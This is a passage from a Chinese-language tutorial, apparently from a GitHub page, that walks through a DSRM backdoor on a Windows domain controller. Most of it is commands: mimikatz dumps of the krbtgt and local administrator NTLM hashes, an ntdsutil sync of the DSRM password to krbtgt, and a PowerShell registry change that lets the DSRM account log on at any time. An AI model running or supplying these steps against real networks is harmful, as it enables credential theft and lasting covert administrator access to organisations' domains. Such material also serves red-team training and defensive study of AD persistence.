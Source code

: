 ##### 实操

1. 使用mimikatz查看krbtgt的NTLM Hash

   在域控中：

   ```powershell
   mimikatz.exe
   mimikatz # privilege::debug
   mimikatz # lsadump::lsa /patch /name:krbtgt
   ```

2. 使用mimikatz查看并读取SAM文件中本地管理员的NTLM Hash

   在域控中：

   ```powershell
   mimikatz # token::elevate
   mimikatz # lsadump::sam
   ```

   输出的Administrator的NTLM Hash就是DSRM账号的NTLM Hash。

3. 将DSRM账号和krbtgt的NTLM Hash同步

   ```powershell
   C:\ntdsutil
   NTDSUTIL: SET DSRM PASSWORD
   Reset DSRM Administrator Password: SYNC FROM DOMAIN account krbtgt
   Password has been synchronized successfully.
   
   Reset DSRM Administrator Password: q
   NTDSUTIL: q
   ```

   可以看到上面的`Password has been synchronized successfully.`就证明同步成功了。

4. 查看DSRM的NTLM Hash是否同步成功

   通过mimikatz在查一次Hash，命令同步骤2. 如果看到NTLM Hash和krbtgt的一样就成功了。

5. 修改DSRM的登陆方式

   主要通过修改注册表实现：

   ```registry
   HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior
   ```

   类型为一个DWORD(32 Bit)，三个值表示含义：

   * 0：默认值，只有当域控重启进入DSRM模式才可以使用DSRM账号登陆
   * 1：只有当本地AD、DS服务停止时，才可以使用DSRM管理员账户登陆域控
   * 2：任何情况下都可以使用DSRM账户登陆域控

   在只有终端环境的情况下，可以使用Powershell进行修改：

   ```powershell
   New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
   ```
